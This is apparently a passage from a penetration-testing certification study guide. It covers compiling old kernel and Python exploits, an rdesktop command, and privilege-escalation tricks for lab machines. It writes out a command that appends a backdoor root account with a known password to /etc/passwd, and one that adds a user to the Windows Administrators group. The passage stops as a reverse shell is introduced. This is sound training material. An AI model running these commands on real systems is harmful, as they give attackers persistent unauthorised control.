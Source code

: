 #### Compiling old kernel exploits for Linux

Most of the lab machines are very old and kernel exploits for the 2.x kernel series won't build on Kali. Pre-compiled exploits aren't available in most cases.

For this reason I recommend grabbing a historical CentOS 5.x VM from [here](https://virtualboxes.org/images/centos/), and use it to compile the ancient exploits. You'll have to fix the package repositories and setup SSH so that you can transfer files from the VM, but it's worth it.

#### Compiling Python exploits for Windows

I struggled to find an a good guide for doing this in Kali, but these steps seemed to work:

- Download a Python MSI from [the official website](https://www.python.org/downloads/release/python-2715/), and run:
`wine msiexec /i python-2.7.15.msi`
- Download pywin32 from [GitHub](https://github.com/mhammond/pywin32/releases), and run:
`wine pywin32-224.win32-py2.7.exe`
- Now you can compile a Python exploit into an executable with:
`wine c:/Python27/python.exe /var/lib/veil/PyInstaller-3.2.1/pyinstaller.py 27191.py --onefile`
It'll be available in the 'dist' directory.

## Useful Commands

#### The only RDP command you need

This rdesktop command makes /var/www available to the Windows machine as a network share, enables clipboard sharing, and renders the window at a decent size:

`rdesktop -g 85% -r disk:share=/var/www -r clipboard:CLIPBOARD -u username -p password 10.10.10.10`

RDP then becomes less awkward when developing your buffer overflow exploit or performing post-exploitation.

#### Escalation with root command (Linux)

The goal in the exams is to get a root shell on all the machines, so I made that my goal in the labs too. It's often possible to read the proof.txt file without a root shell, but that's not good enough in the exam.

When I found myself with the ability to run a command with root privileges, this was my go-to on Linux:

`echo 'toor:aaKNIEDOaueR6:0:0:toor:/root:/bin/bash' >> /etc/passwd`

It will create a new root user with the password "foo". The encrypted password was generated with: `perl -le 'print crypt("foo", "aa")'`. You can then easily elevate to a root shell with `su toor`.

#### Escalation with admin command (Windows)

Similarly, if you can get a command to run with SYSTEM privileges on Windows, it's usually a good idea to add yourself to the Administrators group with `net localgroup Administrators offsec /add`. However, on newer Windows machines, this may only give you "unelevated" administrator access, and you'll be hamstrung by UAC and won't be able to read the Administrator account's files.

For me, the most successful command in these situations was a reverse shell executable:
